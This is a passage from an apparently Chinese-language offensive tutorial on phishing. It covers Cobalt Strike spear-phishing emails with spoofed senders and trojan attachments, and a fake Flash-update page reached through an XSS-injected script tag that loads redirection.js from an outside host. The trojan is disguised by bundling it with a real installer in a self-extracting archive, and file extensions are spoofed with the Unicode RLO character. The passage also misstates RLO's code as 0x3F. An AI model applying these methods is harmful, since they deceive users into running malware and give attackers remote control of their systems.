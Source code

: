 ![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODta5lbTicVkIpB3XzxAEfyBeTR6hiafZcQEjzqu0maIZicJk0k7hEozXlf6ric6yiatWdogQy6Q6JQemnA/640?wx_fmt=png)

导入收件人，这里邮件和名字一定要用 tab 键分开，再导入模板的文件的时候，去选择一封你需要伪造的正常文件，然后点击选择显示文件原文，复制粘贴就行，achment 就是附件，可以加入你的免杀马，word，什么的，embed 项就是点击之后要跳转的页面，那么可以配合 clone web 使用，填入我们 cs 服务器克隆的网站 url，然后就是设置邮件服务器。

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODta5lbTicVkIpB3XzxAEfyBexsMe1GSHprdgoT6PA7HwFl5BH3ewaALk7zcLBC5AbKDUrCAia0kmyLg/640?wx_fmt=png)

Bounce to 选项就是你伪造好的邮箱，你可以伪造成 admin@qq.com 什么的，但是大多数邮件服务器有防御，会显示代发人，发之前还可以点击 Preview 进行预览

再来给 flash 钓鱼网站，当我们找到一个网站的后台，顺利进去了，但是任何 getshell 的点，就只找到一个 xss，那么如何 getshell 嘞？这时候就来一波 flash 钓鱼把

建立网站

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODta5lbTicVkIpB3XzxAEfyBe0s6mv7bkdHvAwbjBNltJBC7vJwlFHWIa1Hyl85QR0EFn7icH1ZpBia5g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODta5lbTicVkIpB3XzxAEfyBe5SNuPKtXIex3jibpZ2pn6j1xftDEiaiaAkGib00PkAXodrvK7Ayff2X1uA/640?wx_fmt=png)

我们找到 index.html 中的立即下载所在的标签，url 替换成我们的木马下载链接

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODta5lbTicVkIpB3XzxAEfyBeGrdnGjWSq3ia3wqz0f02rSH7BTjP8m8q8xV47tYg7cPy9wOYPuRGmZg/640?wx_fmt=png)

那么我们如何让管理员重定向过来？这里新建一个 js 文件，文件内容如下，然后我们的 xss 脚本调用这段 js 文件

```
<script src="http://www.abc.flash.com.cn/redirection.js"></script>
```

```
<script src="http://www.abc.flash.com.cn/redirection.js"></script>
```

当然为了保险起见，我们得配合自解压钓鱼，现在压缩的是两个文件，一个是木马文件，另一个是 flash 正常安装程序，两个文件都得执行，通过修改资源图标，伪装成 flash 安装程序，

就可以 getshell 了！

8.unicode 反转文件后缀钓鱼
------------------

Unicode（中文：万国码、国际码、统一码、单一码）是计算机科学领域里的一项业界标准。它对世界上大部分的文字系统进行了整理、编码，使得电脑可以用更为简单的方式来呈现和处理文字。而如上技术正是使用了 Unicode 的 RLO（开始从左向右覆盖），Unicode 定义的 Start of right-to-left override，控制字符是 RLO，ASCII 码是 0x3F。只要在一行字符前面加上一个 0x3F 就可以实现文本的反向排列。这个 0x3F 是 Unicode 为了兼容阿拉伯文字从左至右的阅读习惯设计的一个转义字符。

选择木马，重命名，然后点击插入 unicode 控制字符

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODta5lbTicVkIpB3XzxAEfyBelLfRLLM2usx6LwPMcVaVoApnuEhGoDZk6z36YgYWVGQw3Ln5lwiay1g/640?wx_fmt=png)

完成之后

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODta5lbTicVkIpB3XzxAEfyBehmghcwSb4yGSnShxneJp9Ke6KGXPXefMXmtibpHiaXnzzkibneedj7mGg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODsGoxEE3kouByPbyxDTzYIgX0gMz5ic70ZMzTSNL2TudeJpEAtmtAdGg9J53w4RUKGc34zEyiboMGWw/640?wx_fmt=png)

END

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODsGoxEE3kouByPbyxDTzYIgX0gMz5ic70ZMzTSNL2TudeJpEAtmtAdGg9J53w4RUKGc34zEyiboMGWw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/96Koibz2dODtIZ5VYusLbEoY8iaTjibTWg6AKjAQiahf2fctN4PSdYm2O1Hibr56ia39iaJcxBoe04t4nlYyOmRvCr56Q/640?wx_fmt=gif)
